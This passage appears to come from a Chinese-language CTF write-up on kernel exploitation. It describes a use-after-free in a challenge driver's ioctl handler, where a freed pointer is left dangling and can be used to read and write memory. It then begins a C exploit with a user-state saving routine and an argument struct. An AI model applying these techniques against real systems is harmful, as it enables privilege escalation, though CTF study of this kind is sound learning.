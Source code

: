 
在这里，我们可以注意到：如果我们在 0x10002 操作，将 `select` 全局变量赋值为堆块的地址后，再进行 0x10001 操作，将堆块释放。此时 `select` 指针并没有被置 0，也就是我们拥有了一个悬挂指针，并且可以进行写和读操作。

#### write

![image-20230318141929457](https://cdn.novanoir.moe/img/image-20230318141929457.png)

我们可以往 `select` 指针上写最多 `0x20` 字节

#### read

![image-20230318142059251](https://cdn.novanoir.moe/img/image-20230318142059251.png)

可以读出 `select` 指针的最大 `0x20` 字节数据，用来泄露内核地址。

### EXP 编写

exp 编写是困难的，因为 python 这类弱类型的用多了，想用 C 写，这个转变确实花了我不少功夫 :(

首先，我们要进行用户态的保存以用于在内核态切换回用户态时恢复上下文（正常情况下我们并不需要手动恢复上下文，但是由于我们控制了程序流，因此恢复上下文的操作也要我们自己进行）

```c
uint64_t user_cs,user_ss,user_eflag,user_rsp;

void save_state()
{
  asm(
    "movq %%cs, %0;"
    "movq %%ss, %1;"
    "movq %%rsp, %3;"
    "pushfq;"
    "pop %2;"
    : "=r"(user_cs),"=r"(user_ss),"=r"(user_eflag),"=r"(user_rsp)
    :
    : "memory"
  );
}
```

:::tip 注意

在 GCC 内联汇编中，使用的是 AT&T 语法，而不是我们更加熟悉的 intel 语法，所以源操作数和目的操作数的位置是相反的。

所以 `movq %%cs, %0` 在 gdb 中实际上表示的是 `mov user_cs, cs`

:::



接着我们可以定义所需要的结构体。在这里，我们只需要定义 `ioctl` 中的 `args` 指针参数对应的 `info` 结构体。

```c
struct info
{
  uint64_t idx;
  char *ptr;
};

```
